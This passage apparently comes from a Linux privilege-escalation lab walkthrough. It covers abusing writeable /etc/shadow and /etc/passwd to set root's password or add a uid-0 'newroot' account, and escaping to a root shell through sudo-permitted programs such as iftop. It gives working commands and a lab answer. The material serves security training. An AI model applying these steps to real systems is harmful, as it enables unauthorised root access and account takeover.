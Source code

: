 ## Weak File Permissions - Writeable /etc/shadow

If the `/etc/shadow` file is writeable then we can generate a new password with the command `mkpasswd -m sha-512 <PASSWORD>`, and replace the root users password with the one we have generated. The root user can then be logged into with the newly created password.

## Weak File Permissions - Writeable /etc/passwd

The /etc/passwd file contains information about user accounts. It can be read by anyone, however it should only be writeable by the root user. Historically the `/etc/passwd` file stored password hashes and some versions of Linux still allow password hashes to be stored there.

A new password hash can be generated with `openssl passwd <PASSWORD>`. This can then be place in between the first and second colon of the root users row in `/etc/passwd`.

Alternatively the root users row can be copied and appended to the bottom of the file, changing the first instance of the word 'root' to 'newroot' and replacing the password hash the same way as before.

**Questions**

    1. Run the "id" command as the newroot user. What is the result?

uid=0(root) gid=0(root) groups=0(root)

## Sudo - Shell Escape Sequences

List the programs that sudo allows your user to run with `sudo -l`.

[GTFOBins](https://gtfobins.github.io/"GTFOBins") is a good resource for privilege escalation. If a program is listed with sudo as a function, it can be used to escalate privileges, usually via an escape sequence.

`sudo -l`

```
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

###### iftop

`sudo iftop`

`!`

`/bin/bash`
